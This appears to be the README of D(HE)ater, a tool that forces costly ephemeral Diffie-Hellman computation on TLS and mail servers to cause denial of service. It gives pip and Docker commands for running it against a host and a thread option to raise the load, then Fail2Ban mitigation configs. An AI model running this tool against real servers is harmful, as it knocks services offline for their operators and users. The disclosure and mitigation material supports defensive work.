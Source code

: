 # D(HE)ater

D(HE)ater is an attacking tool based on CPU heating in that it forces the ephemeral variant of
[Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) (DHE) in given
cryptography protocols (e.g. TLS). It is performed without calculating a cryptographically correct ephemeral key on
the client side, but with a significant amount of calculation on the server side. Based on this, D(HE)ater can initiate 
a [denial-of-service (DoS) attack](https://en.wikipedia.org/wiki/Denial-of-service_attack).

## Quick start

D(HE)ater can be installed directly via [pip](https://pip.pypa.io/en/stable/) from
[PyPi](https://pypi.org/project/dheater/)

```console
pip install dheater
dheat --protocol tls www.example.com
```

or can be used via [Docker](https://www.docker.com/) from
[Docker Hub](https://hub.docker.com/repository/docker/balasys/dheater)

```console
docker pull balasys/dheater
docker run --rm balasys/dheater --protocol tls www.example.com
```

You can increase a load by string extra threads.

```console
dheat --thread-num 4 --protocol tls www.example.com
docker run --rm balasys/dheater --thread-num 4 --protocol tls www.example.com
```

## Mitigation

### Fail2Ban

#### TLS

#### Apache

There is no necessary filters.

1. `apache-ssl.conf` in `fail2ban` directory should be copied `filter.d` directory under the fail2ban configuration
    directory
1. the followings should be added to `jail.local` file in fail2ban configuration directory

```ini
[apache-ssl]

port    = https
logpath = %(apache_error_log)s
maxretry = 1
```

##### Postfix

There is a necessary filters, but it is applied only in ddos mode. The followings should be added to `jail.local`.

```ini
[postfix]
mode = ddos
```

##### Dovecot

There is a necessary filters, but it is applied only in ddos mode. The followings should be added to `jail.local`.

```ini
[dovecot]
mode = aggressive
```

or a specific filter can be used without changing the mode of the dovecot filter.

1. `dovecot-ssl.conf` in `fail2ban` directory should be copied `filter.d` directory under the fail2ban configuration
    directory
1. the followings should be added to `jail.local` file in fail2ban configuration directory

```ini
[dovecot-ssl]

port    = pop3,pop3s,imap,imaps,submission,465,sieve
logpath = %(dovecot_log)s
backend = %(dovecot_backend)s
maxretry = 1
```

## License

The code is available under the terms of Apache License Version 2.0. 
A non-comprehensive, but straightforward description and also the full license text can be found at 
[Choose an open source license](https://choosealicense.com/licenses/apache-2.0/) website.
